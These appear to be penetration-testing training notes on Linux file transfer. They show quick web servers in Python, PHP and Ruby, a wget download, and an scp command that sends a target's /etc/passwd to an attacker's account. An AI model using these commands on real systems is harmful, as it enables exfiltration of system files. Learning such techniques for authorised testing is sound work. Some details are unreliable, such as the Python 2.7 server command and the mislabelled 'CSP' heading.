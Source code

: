 #### Creating a Web Server with Python2/7
```bash
python2.7 -m http.server
```
#### Creating a Web Server with PHP
```bash
php -S 0.0.0.0:8000
```
Creating a Web Server with Ruby
```bash
ruby -run -ehttpd . -p8000
```
#### Download the File from the Target Machine onto the Pwnbox
```bash
wget 192.168.0.113:8000/filetotransfer.txt
```
**Note:** When we start a new web server using Python or PHP, it's important to consider that inbound traffic may be blocked. We are transferring a file from our target onto our attack host, but we are not uploading the file.

## CSP Upload
Some companies allow `SSH protocol`(TCP/22) for outbound connections, and if that's the case we can use an SSH server with the `scp` utility to upload file.
#### upload file using SCP
```bash
scp /etc/passwd http-student@<ip>:/home/htp-student/
```
Note: Remember that scp syntax is similar to cp or copy.

## Onwards
These are the most common file transfer methods using built-in tools on Linux systems, but there's more. In the following sections, we'll discuss other mechanisms and tools we can use to perform file transfer operations.

